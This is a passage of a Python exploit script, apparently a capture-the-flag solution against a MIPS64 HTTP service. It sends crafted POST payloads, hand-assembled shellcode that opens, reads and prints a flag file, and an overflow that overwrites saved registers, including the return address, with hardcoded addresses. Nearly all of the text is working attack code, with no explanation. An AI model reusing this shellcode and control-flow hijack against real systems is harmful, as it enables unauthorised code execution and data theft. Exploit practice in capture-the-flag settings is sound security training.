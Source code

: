 ```py
    payload = payload.ljust(0x10ba,'a')
    raw_input()
    #sleep(4)
    p.send(payload)
    #
    payload = "POST /xmzyshypnc"
    payload += "  \r\n"
    payload += "Connection: no"
    payload += "Content-Length: "
    payload += str(0xfff)
    payload += "\r\n\r\n"
    #payload = payload.ljust(0x40,'\x00')
    #payload += shellcode
    payload = payload.ljust(0xf0,'\x00')
    raw_input()
    #sleep(4)
    p.send(payload)
    #
    #sc = "\x3c\x0d\x2f\x66\x35\xad\x6c\x61\xaf\xad\xff\xf8\x3c\x0d\x67\x00\xaf\xad\xff\xfc\x67\xa4\xff\xf8\x34\x05\xff\xff\x00\xa0\x28\x2a\x34\x02\x13\x8a\x01\x01\x01\x0c"
    #sc += "\x00\x40\x20\x25\x24\x06\x01\x00\x67\xa5\xff\x00\x34\x02\x13\x88\x01\x01\x01\x0c"
    #sc += "\x24\x04\x00\x01\x34\x02\x13\x89\x01\x01\x01\x0c"
    sc = "\x3c\x0e\x2f\x66"#lui     $t6, 0x2f66
    sc += "\x65\xCE\x6c\x61"#daddiu  $t6, 0x6c61
    sc += "\xaf\xae\x00\x20"#sw      $t6, 0x20($sp)
    sc += "\x3c\x0f\x67\x00"#lui     $t7, 0x6700
    sc += "\xaf\xaf\x00\x24"#sw      $t7, 0x24($sp)
    sc += "\x67\xA4\x00\x20"#daddiu  $a0, $sp, 0x20
    sc += "\x00\x00\x28\x25"#move    $a1, $zero
    sc += "\x00\x00\x30\x25"#move    $a2, $zero
    sc += "\x24\x02\x13\x8a"#li      $v0, 5002
    sc += "\x01\x01\x01\x0c"#syscall 0"
    #read
    sc += "\x00\x40\x20\x25"#move    $a0, $v0"
    sc += "\x67\xA5\x00\x30"#daddiu  $a1, $sp, 0x30
    sc += "\x24\x06\x00\x80"#li      $a2, 0x80
    sc += "\x24\x02\x13\x88"#li      $v0, 5000
    sc += "\x01\x01\x01\x0c"#syscall 0"
    #write
    sc += "\x24\x04\x00\x01"#li      $a0, 1
    sc += "\x67\xA5\x00\x30"#daddiu  $a1, $sp, 0x30
    sc += "\x24\x06\x00\x80"#li      $a2, 0x80
    sc += "\x24\x02\x13\x89"#li      $v0, 5001
    sc += "\x01\x01\x01\x0c"#syscall 0"
    #exit
    sc += "\x00\x00\x20\x25"#move    $a0, $zero"
    sc += "\x24\x02\x13\xc2"#li      $v0, 5001
    sc += "\x01\x01\x01\x0c"#syscall 0"

    #shellcode = ""
    #for i in range(len(sc)/4):
    #    sc1 = sc[i*4:i*4+4]
    #    shellcode += sc1[::-1]
    payload = sc
    payload = payload.ljust(0x100,'\x00')
    payload += p64(0x21)*((0xf30-0x100)/8)
    #payload = 'a'*0xf30
    payload += p64(bss_addr)#gp
    payload += p64(0x0000000120012000+0x500-0x88)#fp
    payload += p64(0x00000001200125f0)#$ra
    payload += p64(0x2333)#$sp
    payload = payload.ljust(0x10ba,'a')
    #sleep(4)
```